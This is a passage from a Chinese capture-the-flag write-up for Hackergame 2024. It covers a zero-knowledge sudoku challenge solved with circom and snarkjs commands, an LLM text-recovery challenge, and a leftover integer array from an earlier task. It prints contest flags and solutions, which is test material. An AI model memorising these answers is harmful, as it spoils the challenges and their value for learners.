[37, 43, 32, 38, 58, 52, 45, 46, -32, -32, -32, -32, 30, 36, 50, 49, 36, 53, 36, 49, 30, 45, 46, 54, 30, 20, 30, 49, 52, 45, 30, 12, 24, 30, 34, -17, 35, 36, -12, -17, -17, 34, 32, -9, -14, -9, -11, 35, 60, 27, 32, 16, 97, 48, 93, 44, 15, 57, 83, 93, 75, 36, 92, 14, 4, 39, 74, 37, 31, 7, 21, 74, 85, 56, 58, 42, 70, 65, 7, 8, 53, 72, 62, 17, 0, 62, 84, 29, 90, 34, 4, 28, 99, 93, 15, 36, 72, 0, 12, 75, 81, 97, 59, 46, 84, 86, 71, 25, 79, 19, 81, 18, 66, 33, 33, 32, 45, 78, 55, 83, 63, 93, 68, 13, 28, 98, 64, 66, 13, 12, 71, 61, 46, 66, 98, 22, 30, 72, 43, 49, 94, 27, 56, 66, 64, 6, 19, 32, 69, 7, 35, 86, 99, 16, 48, 3, 91, 26, 30, 2, 87, 7, 52, 41, 41, 71, 31, 11, 0, 91, 20, 6, 63, 74, 32, 5, 85, 75, 70, 42, 13, 2, 98, 93, 55, 66, 36, 90, 80, 26, 21, 79, 19, 4, 57, 43, 18, 66, 55, 88, 80, 70, 29, 56, 21, 32, 52, 57, 70, 60, 20, 27, 50, 86, 14, 0, 42, 10, 76, 59, 42, 11, 60, 42, 13, 30, 96, 68, 19, 39, 63, 42, 30, 32, 88, 68, 28, 6, 2, 50, 92, 63, 9, 20, 6, 88, 1, 1, 69, 67, 89, 39, 59, 56, 30, 96, 68, 29, 19, 8, 36, 62, 96, 74, 97, 79, 41, 48, 98, 31, 22, 52, 78, 26, 57, 60, 6, 46, 85, 11, 93, 50, 5, 20, 99, 65, 19, 11, 60, 58, 14, 16, 11, 72, 29, 63, 48, 84, 84, 72, 16, 89, 23, 88, 82, 13, 94, 82, 32, 86, 1, 87, 31, 100, 21, 20, 64, 64, 2, 97, 40, 15, 88, 46, 53, 96, 92, 12, 1, 33, 29, 91, 43, 48, 47, 88, 44, 93, 54, 80, 24, 85, 20, 85, 8, 26, 32, 47, 11, 34, 65, 77, 23, 38, 12, 61, 12, 9, 22, 61, 98, 6, 48, 36, 21, 81, 28, 43, 54, 20, 91, 31, 40, 88, 34, 69, 76, 66, 62, 79, 23, 49, 16, 94, 29, 19, 65, 69, 82, 41, 59, 2, 20, 65, 21, 32, 94, 96, 60, 79, 22, 53, 45, 69, 61, 93, 50, 7, 99, 44, 2, 97, 9, 33, 14, 70, 14, 23, 52, 88, 71, 48, 20, 66, 88, 90, 100, 26, 49, 25, 57, 42, 43, 99, 23, 17, 68, 48, 42, 58, 14, 61, 62, 55, 5, 2, 98, 23, 8, 41, 38, 31, 72, 95, 58, 85, 95, 92, 19, 83, 32, 77, 3, 70, 12, 66, 52, 33, 15, 54, 79, 10, 39, 41, 97, 72, 94, 62, 44, 72, 73, 60, 1, 35, 84, 10, 40, 78, 27, 20, 40, 4, 84, 24, 81, 32, 66, 38, 41, 50]
```
```
flag{uno!!!!_esrever_now_U_run_MY_c0de500ca8386d}
```
完事。

### Omake
当时我测试能否替换时是随便魔改的，于是造就了名场景：


## \[math\] 零知识数独
### \[Flag 1\] 数独高手
这一问真就是数独，直接按常规方法解就行了……


```
Flag: flag{SUD0KU_M45T3R_You_Have_Shown_Y0ur_Know1edge_ac5207a9}
```
笑点解析：我倒过来做的（

### \[Flag 2\] ZK 高手
准备 input.json，内容范例如下：
```JSON
{"unsolved_grid":[[0, 5, 4, 0, 3, 0, 0, 0, 0], [0, 0, 0, 0, 8, 0, 0, 0, 0], [3, 9, 0, 0, 0, 0, 1, 2, 0], [0, 0, 0, 0, 0, 0, 0, 8, 1], [0, 1, 0, 9, 5, 0, 2, 0, 0], [0, 0, 3, 0, 4, 0, 6, 0, 0], [2, 0, 0, 0, 0, 4, 0, 0, 3], [0, 0, 0, 0, 0, 0, 0, 6, 0], [0, 0, 6, 0, 0, 0, 0, 4, 0]], "solved_grid": [[8, 5, 4, 1, 3, 2, 7, 9, 6], [1, 6, 2, 7, 8, 9, 4, 3, 5], [3, 9, 7, 4, 6, 5, 1, 2, 8], [5, 4, 9, 2, 7, 6, 3, 8, 1], [6, 1, 8, 9, 5, 3, 2, 7, 4], [7, 2, 3, 8, 4, 1, 6, 5, 9], [2, 7, 5, 6, 9, 4, 8, 1, 3], [4, 3, 1, 5, 2, 8, 9, 6, 7], [9, 8, 6, 3, 1, 7, 5, 4, 2]]}
```
它表示的是这样的数独布局：
```
8	5	4	1	3	2	7	9	6
1	6	2	7	8	9	4	3	5
3	9	7	4	6	5	1	2	8
5	4	9	2	7	6	3	8	1
6	1	8	9	5	3	2	7	4
7	2	3	8	4	1	6	5	9
2	7	5	6	9	4	8	1	3
4	3	1	5	2	8	9	6	7
9	8	6	3	1	7	5	4	2
```
我用 circom 生成了 generate_witness.js，这样就能产生 witness 档案：
```PowerShell
node .\generate_witness.js .\sudoku.wasm .\input.json .\witness.wtns
```
继续产生 proof.json 和 public.json：
```PowerShell
snarkjs groth16 prove .\sudoku.zkey .\witness.wtns .\proof.json .\public.json
```
把 proof.json 传上去就好了。


```
Proof verified successfully! flag{you_are_a_5udoku_expert_and_pr0ved_your_kn0wledge_6b80d0424c}
```
这题和 Hackergame 2022 的「量子藏宝图」一样，让我接触到了未知的领域。

### \[Flag 3\] 无解之谜
```
9	0	0	0	0	0	1	0	0
8	0	0	0	0	0	2	0	0
7	0	0	0	0	0	3	0	0
0	0	1	0	0	0	0	0	6
0	2	0	0	0	0	0	7	0
0	0	3	0	0	0	0	0	0
0	1	0	0	0	0	0	6	0
0	0	2	0	0	0	0	0	7
0	3	0	0	0	0	0	0	0
```
如字面所写，这个数独根本就没有解，出题意图应该是某种类似于 Hash 碰撞的东西。

## \[AI\] 先不说关于我从零开始独自在异世界转生成某大厂家的 LLM 龙猫女仆这件事可不可能这么离谱，发现 Hackergame 内容审查委员会忘记审查题目标题了ごめんね，以及「这么长都快赶上轻小说了真的不会影响用户体验吗🤣」
### \[Flag 1\]「行吧就算标题可以很长但是 flag 一定要短点」
肉眼观察 + [nutri](https://nutrimatic.org/) 还原文本：
```
In the grand hall of Hackergame 2024, where the walls are lined with screens showing the latest exploits from the cyber world, contestants gathered in a frenzy, their eyes glued to the virtual exploits. The atmosphere was electric, with the smell of freshly brewed coffee mingling with the scent of burnt Ethernet cables. As the first challenge was announced, a team of hackers, dressed in lab coats and carrying laptops, sprinted to the nearest server room, their faces a mix of excitement and determination. The game was on, and the stakes were high, with the ultimate prize being a golden trophy and the bragging rights to say they were the best at cracking codes and hacking systems in the land of the rising sun.
```
然后就没有然后了……？

停停停看 build.sh 啊喂！

↑差点重蹈覆 GeekGame 2024 的辙↓


```bash
echo "flag{llm_lm_lm_koshitantan_$(sha512sum before.txt | cut -d ' ' -f1 | cut -c1-16)}"
```
```
flag{llm_lm_lm_koshitantan_fa7b655c38bc8847}
```

## Omake：「还是比强网杯仁慈」

